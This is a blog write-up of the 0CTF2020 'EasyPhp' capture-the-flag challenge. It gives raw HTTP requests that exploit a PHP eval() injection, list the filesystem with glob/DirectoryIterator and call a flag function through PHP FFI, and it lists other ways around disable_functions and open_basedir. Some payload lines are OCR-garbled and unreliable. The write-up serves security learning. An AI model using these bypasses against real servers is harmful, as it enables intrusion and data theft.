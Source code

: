 ```yaml
---
layout: post
title:  "0ctf2020-EasyPhp"
author: sal
categories: [ CTF ]
image: assets/images/php.jpg
description: "Writeup for Challenge EasyPhp from 0CTF2020"
featured: true
---
```


Recently, I got opportunity to participate in **0CTF2020 Quals**. This Post is about Challenge `Easyphp` .


## Recon >
First things first, Always Recon the chall. So, on visiting the Provided URL [http://pwnable.org:19260/](http://pwnable.org:19260/) for the challenge, We get this piece of php code

```php
<?php
    if (isset($_GET['rh'])) {
        eval($_GET['rh']);
    } else {
        show_source(__FILE__);
    }
?>
```

Now, On looking at the source code, It immediately clicked that there is some sort of Code Injection using parameter `rh`. On trying commands like ``` system, exec, popen```, We didn't get anything executed.So, we must have to get our hands on the internals.

Now, we check the settings of back-end php application, For that we have to take a look at `phpinfo();`. On Using phpinfo(); as param in var rh,
[http://pwnable.org:19260/rh=phpinfo();](https://pwnk1dd13.github.io/assets/CTF/php-0ctf2020.html)

We get to know that dangerous functions that we tried to use before were disabled, Have a look at `disabled_functions` 
```
set_time_limit,ini_set,pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wifcontinued,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_get_handler,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,pcntl_async_signals,system,exec,shell_exec,popen,proc_open,passthru,symlink,link,syslog,imap_open,ld,mail,putenv,error_log,d
```
Hmm! So, We need to find some other ways. Doing a bit of research and reading writeups , we get know a lot about php exploits. Let's discuss various strategies we thought to exploit it.

## Strategy >

Following exploits came up : 

> PHP-FPM
>
> Bypass open_basedir()
>
> FFI
>
> glob + DirectoryIterator  : ~~This is not the exploit~~

Now, I'll explain a bit of above and unintended solutions that came during CTF in the later section `Conclusion`, Let's first discuss how I solved this challenge.

## Exploit >

We first glob + DirectoryIerator to literally scan the whole server, After doing this, we found interesting things in `/` Directory with this `POST`request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 91

gml=$a=new DirectoryIterator("glob:///*");foreach($a as $f){echo($f->__toString().' ');};
```

```
bin dev etc flag.h flag.so home lib media mnt opt proc root run sbin srv start.sh sys tmp usr var
```
Cool!. So ,we find our targets `flag.h` and `flag,so`. `flag.so` is Dynamically Linked Shared Object and is most probably used by `flag.h` . So, we need to figure out the function called by `flag.h` .Now, to exploit further I used the evil functionality ``FFI`` which was enabled on server as per phpinfo(). For more information about this, visit Official [Php Docs](https://www.php.net/manual/en/class.ffi.php).

Now, We use `FFI` to call the method in `flag.so`.So, use `FFI` to load `flag.h`. Let's try with this `POST` request:
```
POST /?rh=%40%65%76%61%6c%28%24%5f%50%4f%53%54%5b%67%6d%6c%5d%29%3b HTTP/1.1
Host: pwnable.org:19260
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 39

gml=$ffi = FFI::load("/flag.h");echo 1;
```
We don't get a 500, indicates that loading through `FFI` works and it's successfully loaded. But we don't know what method there is, what the method name is, and can't read flag.h, this is the point wher e I got stuck. 

But reading more about FFI exploits, reveal that we can leak memory to know the method name and then call it to get the `flag`. I really not noted down, from where I got the script to leak method, Shame on me. But this guy also published writeup for this same challenge and described the process of leaking memory. He has also published writeups for other challenges. So, do checkout. Link to the [Writeup](https://www.4hou.com/posts/p7BQ).Now ,we have the method to be called `flag_fUn3t1on_fFi();`.

Now,just post this request to get the flag :
```
gml=$ffi = FFI : : load( " / flag. h" ) ; : : string($ffi->f1ag_fUn3t10n_fF1()));
```
We get our flag as response :
```
HTTP/I.1 200 0K
Server: nginx
Date: Mon, 29 Jun 2020 11:01 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
X-Powered-By: PHP/7.4.5
Content-Length: 42

string(27) "flag{FFi_1s_qu1T3_DANg10uS}"
```
Hurray! We got the flag `flag{FFi_1s_qu1T3_DANg10uS}`

## Conclusion >

The intended solutions of this challenge were :

> PHP-FPM
>
> FFI

We done this through FFI, but we can also do this through `php-Fastcgi/php-fpm`. You can read more about `PHP-FPM` [here](https://www.php.net/manual/en/install.fpm.php). The way to exploit via `fast-cgi` is to first find the sock file to connect .i.e `/var/run/php-fpm.sock` using `glob+DirectoryIterator`
. Now, You can forge `fastcgi` to bypass some security policies like `open_basedir` by using `PHP_VALUE` to change global php settings like `open_basedir`. In our case, primary target is to `open-basedir` so that we can read files in root folder. For Script and more info, [Visit](https://github.com/balsn/ctf_writeup/tree/master/20190323-0ctf_tctf2019quals#wallbreaker-easy). I have added file containing all the recon data [here](https://pwnk1dd13.github.io/assets/CTF/easyphp-0ctf2020.txt).

> Unintended solutions :
As the organizers had setup this challenge in a shared php environment. So, if someone modifies `open_basedir` restriction from `/var/www/html` to `/`. Then, It gets modified for all participants and hence, anybody can directly use `file_get_contents` to get `flag.so` where the flag is in plain-text.

## Learning >
Other Exploits :
 > `LD_PRELOAD` if `putenv` is not disabled, can be used to exploit the server.
 

 > `ini_set` if not disabled, can be used to change `open_basedir` and read contents from any directory, here, root `/` directory.

 >`ImageMagick` ,a php image library if used and enabled, can also be used to bypass `open_basedir` restriction.

## Feedback >

Thanks for reading and visiting my blog. Please don't mind by bad English or grammatical errors. Please do comments if You find it interesting or something went wrong!. I read all the comments.
Thanks Again! Have a good Day!


* * * 